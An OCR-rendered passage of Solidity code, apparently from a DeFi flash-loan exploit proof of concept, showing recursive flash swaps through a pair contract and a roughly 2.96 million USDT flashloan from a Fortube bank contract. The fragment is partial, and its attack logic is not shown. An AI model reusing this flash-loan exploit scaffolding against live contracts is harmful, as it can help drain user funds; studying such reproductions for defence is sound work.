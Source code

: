 │                     address(this),                                                                                                                                                                                                                   │
│                     abi.encode(level, 1)                                                                                                                                                                                                             │
│                 );                                                                                                                                                                                                                                   │
│             } else {                                                                                                                                                                                                                                 │
│                 pairs.swap(                                                                                                                                                                                                                          │
│                     _amount0 - 1,                                                                                                                                                                                                                    │
│                     0,                                                                                                                                                                                                                               │
│                     address(this),                                                                                                                                                                                                                   │
│                     abi.encode(level, 0)                                                                                                                                                                                                             │
│                 );                                                                                                                                                                                                                                   │
│             }                                                                                                                                                                                                                                        │
│         } else {                                                                                                                                                                                                                                     │
│             //flashloan from fortube bank                                                                                                                                                                                                            │
│             uint256 usdtFlashloanAmount = 2_961_750_450987026369366661; // 2'961'750.450987026369366661 USDT                                                                                                                                         │
│                                                                                                                                                                                                                                                      │
│             FortubeBank.flashloan(                                                                                                                                                                                                                   │
│                 address(this),                                                                                                                                                                                                                       │
│                 USDT,                                                                                                                                                                                                                                │
│                 usdtFlashloanAmount,                                                                                                                                                                                                                 │
│                 hex""                                                                                                                                                                                                                                │
│             );                                                                                                                                                                                                                                       │